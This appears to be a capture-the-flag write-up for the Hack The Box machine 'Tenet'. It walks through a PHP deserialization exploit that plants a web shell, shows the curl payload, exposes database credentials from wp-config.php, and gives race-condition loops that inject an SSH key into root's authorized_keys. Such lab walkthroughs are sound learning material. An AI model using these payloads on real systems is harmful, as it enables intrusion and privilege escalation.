 # Tenet

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.1  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-30 08:28 EDT
Nmap scan report for 10.129.85.1
Host is up (0.0071s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Another web-based exploit. We have to add `tenet.htb` to our `/etc/hosts` file to view the website.

### Tenet PHP Deserialisation

The machine has a blog-like website:

<figure><img src="../../../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>

This is a Wordpress based site if we view the page source. If we view some of the comments within the pages, we can see this comment that points us towards another file:

<figure><img src="../../../.gitbook/assets/image (86).png" alt=""><figcaption></figcaption></figure>

Visiting `sator.php` won't do anything. Instead, visit`http://<IP>/sator.php.bak`, and it would download file to our machine. Then, we can view the file contents:

```php
<?php

class DatabaseExport
{
	public $user_file = 'users.txt';
	public $data = '';

	public function update_db()
	{
		echo '[+] Grabbing users from text file <br>';
		$this-> data = 'Success';
	}


	public function __destruct()
	{
		file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
		echo '[] Database updated <br>';
	//	echo 'Gotta get this working properly...';
	}
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();


?>
```

This was an obvious deserialisation exploit at the `sator.php` file hosted on the IP address. As such, we can create this small bit of code that would write a new file to the machine.

```php
<?php

class DatabaseExport {

    public $file = "cmd.php";
    public $data = '<?php system($_REQUEST["cmd"]); ?>';

}

$input = new DatabaseExport;
echo serialize($input);
?>
```

When run in PHP, it wouuld create a PHP Serialised object. Then, we just need to send that within the `arepo` parameter in a GET request to `sator.php`:

```
$ curl -G --data-urlencode 'arepo=O:14:"DatabaseExport":2:{s:9:"user_file";s:7:"cmd.php";s:4:"data";s:34:"<?php system($_REQUEST["cmd"]); ?>";}' http://10.129.85.1/sator.php
```

Afterwards, we can confirm we have RCE on the machine:

```
$ curl http://10.129.85.1/cmd.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Just spawn a reverse shell using a basic `bash` shell next.

<figure><img src="../../../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Wordpress Credentials

Now that we are in, we can read the `wp-config.php` file. We would find some credentials in it:

```
/** MySQL database username */
define( 'DB_USER', 'neil' );

/** MySQL database password */
define( 'DB_PASSWORD', 'Opera2112' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```

We can then just `su` to `neil` and grab the user flag.

### Sudo Race Condition

When we check `sudo` privileges, we see this:

```
www-data@tenet:/var/www/html$ sudo -l
Matching Defaults entries for www-data on tenet:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:

User www-data may run the following commands on tenet:
    (ALL : ALL) NOPASSWD: /usr/local/bin/enableSSH.sh
```

Here's the script:

```bash
#!/bin/bash

checkAdded() {
        sshName=$(/bin/echo $key | /usr/bin/cut -d " " -f 3)
        if [[ ! -z $(/bin/grep $sshName /root/.ssh/authorized_keys) ]]; then
                /bin/echo "Successfully added $sshName to authorized_keys file!"
        else
                /bin/echo "Error in adding $sshName to authorized_keys file!"
        fi
}

checkFile() {
        if [[ ! -s $1 ]] || [[ ! -f $1 ]]; then
                /bin/echo "Error in creating key file!"
                if [[ -f $1 ]]; then /bin/rm $1; fi
                exit 1
        fi
}

addKey() {
        tmpName=$(mktemp -u /tmp/ssh-XXXXXXXX)
        (umask 110; touch $tmpName)
        /bin/echo $key >>$tmpName
        checkFile $tmpName
        /bin/cat $tmpName >>/root/.ssh/authorized_keys
        /bin/rm $tmpName
}
```

This script is a classic example of a race condition attack. Since the key is temporarily created within the `/tmp` directory before being added to the `authorized_keys` folder of `root`, we can intercept the response by having a loop running within the `/tmp` directory that checks for the key's creation, then overwrite the file with my own key.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"># in first SSH shell
while true; do for file in /tmp/ssh-*; do echo 'YOUR KEY VALUE' > $file ; done; done
# in another
<strong>while true; do sudo /usr/local/bin/enableSSH.sh; done
</strong><strong>
</strong><strong># alternatively, run this script
</strong>#!/bin/bash

while true; do
        cat id_rsa.pub | tee /tmp/ssh-*
        sudo /usr/local/bin/enableSSH.sh
done
</code></pre>

After a while, we should get an error like this:

<figure><img src="../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

Then we can just SSH to `root`.

<figure><img src="../../../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>

Rooted!
